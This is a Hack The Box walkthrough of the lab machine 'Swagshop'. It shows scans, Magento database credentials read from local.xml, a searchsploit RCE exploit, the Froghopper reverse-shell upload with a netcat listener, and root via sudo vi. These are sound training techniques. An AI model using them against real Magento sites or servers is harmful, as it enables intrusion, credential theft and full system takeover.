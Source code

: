 ```yaml
---
layout: post
title: "Swagshop"
categories: HTB-Walkthrough
---
```


![swagshop](/assets/img/swagshop/swagshop1.png)


Swagshop is another OSCP-like box from TJNull's list of retired HTB machines.



<h3>Nmap</h3>

```
nmap -sV -Pn 10.10.10.140 -sC |tee -a swag.txt


Starting Nmap 7.80 ( https://nmap.org ) at 2020-04-09 18:29 EDT
Nmap scan report for 10.10.10.140
Host is up (0.096s latency).
Not shown: 998 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 b6:55:2b:d2:4e:8f:a3:81:72:61:37:9a:12:f6:24:ec (RSA)
|   256 2e:30:00:7a:92:f0:89:30:59:c1:77:56:ad:51:c0:ba (ECDSA)
|_  256 4c:50:d5:f2:70:c5:fd:c4:b2:f0:bc:42:20:32:64:34 (ED25519)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Home page
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 13.07 seconds
```


<hr width="300" size="10">


<h3>Gobuster</h3>
```
gobuster dir -u http://10.10.10.140/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -t50 -x .php,.txt
```
```
/media (Status: 301)
/index.php (Status: 200)
/includes (Status: 301)
/lib (Status: 301)
/install.php (Status: 200)
/app (Status: 301)
/js (Status: 301)
/api.php (Status: 200)
/shell (Status: 301)
/skin (Status: 301)
/cron.php (Status: 200)
/LICENSE.txt (Status: 200)
/var (Status: 301)
/errors (Status: 301)
[ERROR] 2020/04/09 18:32:47 [!] Get http://10.10.10.140/enterprise_off.php: net/http: request canceled (Client.Timeout exceeded while awaiting headers)
[ERROR] 2020/04/09 18:36:34 [!] Get http://10.10.10.140/ViewSonic_VX2025wm.php: net/http: request canceled (Client.Timeout exceeded while awaiting headers)
/mage (Status: 200)
[ERROR] 2020/04/09 18:40:37 [!] Get http://10.10.10.140/turkmenistan_Niyazov60.php: net/http: request canceled (Client.Timeout exceeded while awaiting headers)
/server-status (Status: 403)
```


<hr width="300" size="10">


<h3>Web</h3>

![swag](/assets/img/swagshop/swag-web1.png)


This is a Magento ecommerce site


<hr width="300" size="10">

We can find some database creds in:
```
http://10.10.10.140/app/etc/local.xml
```


```
<install><date>Wed, 08 May 2019 07:23:09 +0000</date></install>
<crypt><key>b355a9e0cd018d3f7f03607141518419</key></crypt><disable_local_modules>
false</disable_local_modules><resources><db><table_prefix></table_prefix></db>
<default_setup><connection><host>localhost</host>
<username>root</username><password>fMVWh7bDHpgZkyfqQXreTjU9</password>
<dbname>swagshop</dbname>
```


`searchsploit` offers a RCE exploit written in python

```
Magento eCommerce - Remote Code Execution  | exploits/xml/webapps/37977.py
```

copy it to the present working directory with:
```
searchsploit -m 37977
```

Checking the exploit out, we just need to adjust a few details.

![exploit](/assets/img/swagshop/swag-exploit.png)

Run it:

```
python exploit.py
WORKED
Check http://10.10.10.140/index.php/admin with creds sh1n0bi:sh1n0bi
```

Login with sh1n0bi/sh1n0bi


We gain access to the admin panel:

![admin-panel](/assets/img/swagshop/swag-admin-panel.png)



<hr width="300" size="10">



<h3>Froghopper</h3>

An explaination of the `froghopper` method to exploit Magento can be found [here](https://www.foregenix.com/blog/anatomy-of-a-magento-attack-froghopper)



Copy a php-reverse-shell as a jpg file:
```
cp evil.php evil.jpg
```


Allow symlinks in `system configuration`

![symlinks](/assets/img/swagshop/swag-sys-config-dev-allow-symlinks.png)



upload image in `product category`.

![new product category](/assets/img/swagshop/swag-addproductcategory.png)


then create new `newsletter template`.

![newsletter-template](/assets/img/swagshop/swag-newsletter-template.png)

add block code between double curly braces....save it.

```

block type="core/template" template='../../../../../../media/catalog/category/evil.jpg'

```

Make sure that a netcat listener is set
```
nc -nlvp 6969
```

Select the created template and click 'preview' to execute the reverse-shell.

![revshell](/assets/img/swagshop/swag-revshell.png)




<hr width="300" size="10">



Improve the shell:
```
$ python3 -c 'import pty;pty.spawn("/bin/bash")'
www-data@swagshop:/$ ^Z
[1]+  Stopped                 nc -nlvp 6969
root@kali:~/HTB/active/swagshop# stty raw -echo
root@kali:~/HTB/active/swagshop# nc -nlvp 6969
root@kali:~/HTB/active/swagshop# fg
www-data@swagshop:/$ 
```

<hr width="300" size="10">


<h3>Privilege Escalation</h3>


One of the first commands you should always try is `sudo -l` it can potentially reveal what commands
a user can make as root:

```
www-data@swagshop:/$ sudo -l
Matching Defaults entries for www-data on swagshop:                                                                
    env_reset, mail_badpass,                                                                                       
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin                       
                                                                                                                   
User www-data may run the following commands on swagshop:                                                          
    (root) NOPASSWD: /usr/bin/vi /var/www/html/*                                                                   
www-data@swagshop:/$               
```

www-data can open any file in the /var/www/html directory with the `vi` editor as root...

```
www-data@swagshop:/var/www/html$ sudo /usr/bin/vi /var/www/html/cron.sh
```

when we have our file open, we can get a shell with the `:shell` command.

```
www-data@swagshop:/var/www/html$ sudo /usr/bin/vi /var/www/html/cron.sh                                            
                                                                                                                   
E558: Terminal entry not found in terminfo                                                                         
'unknown' not known. Available builtin terminals are:                                                              
    builtin_amiga                                                                                                  
    builtin_beos-ansi                                                                                              
    builtin_ansi                                                                                                   
    builtin_pcansi                                                                                                 
    builtin_win32                                                                                                  
    builtin_vt320                                                                                                  
    builtin_vt52                                                                                                   
    builtin_xterm                                                                                                  
    builtin_iris-ansi                                                                                              
    builtin_debug                                                                                                  
    builtin_dumb
defaulting to 'ansi'
#!/bin/sh
# location of the php binary
if [ ! "$1" = "" ] ; then
    CRONSCRIPT=$1
else
    CRONSCRIPT=cron.php
fi

MODE=""
if [ ! "$2" = "" ] ; then
        MODE=" $2"
fi

PHP_BIN=`which php`

# absolute path to magento installation
INSTALLDIR=`echo $0 | sed 's/cron\.sh//g'`

#       prepend the intallation path if not given an absolute path
if [ "$INSTALLDIR" != "" -a "`expr index $CRONSCRIPT /`" != "1" ];then
    if ! ps auxwww | grep "$INSTALLDIR$CRONSCRIPT$MODE" | grep -v grep 1>/dev/nu
ll 2>/dev/null ; then
        $PHP_BIN $INSTALLDIR$CRONSCRIPT$MODE &
:shell
root@swagshop:/var/www/html# 
```

Grab both user and root flags!!!

```
root@swagshop:/var/www/html# cat /home/haris/user.txt
a4xxxxxxxxxxxxxxxxxxxxxxxxxxxac8
root@swagshop:/var/www/html# cat /root/root.txt
c2xxxxxxxxxxxxxxxxxxxxxxxxxxx721

   ___ ___
 /| |/|\| |\
/_|  |.` |_\           We are open! (Almost)
  |   |.  |
  |   |.  |         Join the beta HTB Swag Store!
  |___|.__|       https://hackthebox.store/password

                   PS: Use root flag as password!
root@swagshop:/var/www/html# 
```

I bought a T-shirt and some stickerz!!!

:)
